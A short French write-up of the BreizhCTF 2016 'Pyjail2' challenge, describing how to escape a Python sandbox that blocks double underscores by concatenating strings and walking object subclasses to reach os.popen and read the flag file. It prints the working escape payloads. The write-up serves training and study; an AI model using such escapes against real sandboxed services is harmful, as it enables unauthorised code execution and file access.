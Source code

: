 # BREIZHCTF 2K16
** Chall:** Pyjail2
**Points:** 200 |
**Taux de réussite:** 14% |


Pour ce deuxième chall de pyjail on reste dans la même idée que le premier : sortir du "jail".Par contre on remarque que le double underscore n'est plus accepté par le programme comme entrée :/ 

Ayant récupérer le code du premier chall on remarque qu'il existe une fonction "_" qui prend en paramètre une chaine de caractères et qui exécute le code reçu (intéressant !).

L'idée est la suivante, nous allons exécuter les mêmes commandes qu'avant (pyjail1) sauf que cette fois ci on les passera à la fonction "\_" en tant que chaine de caractères.
Donc, on peut passer des commandes avec un double underscore dedans, il suffit simplement de concaténer deux underscore \("\__" =>\ \:\(\  , "\_"+"\_" => \:\) \).

```
>_("wclass = ()._"+"_class_"+"_._"+"_base_"+"_._"+"_subclasses_"+"_()[59]()")
>_("print wclass._module._"+"_builtins_"+"_['_"+"_import_"+"_']('os').popen('cat flag')").read()

BZH{fugitif 2 \o/}
```
PS:  j'ai encore oublié de copier le flag :p

De même on exécute une commande pour récupérer le code du chall "cat python\_vm2.py".
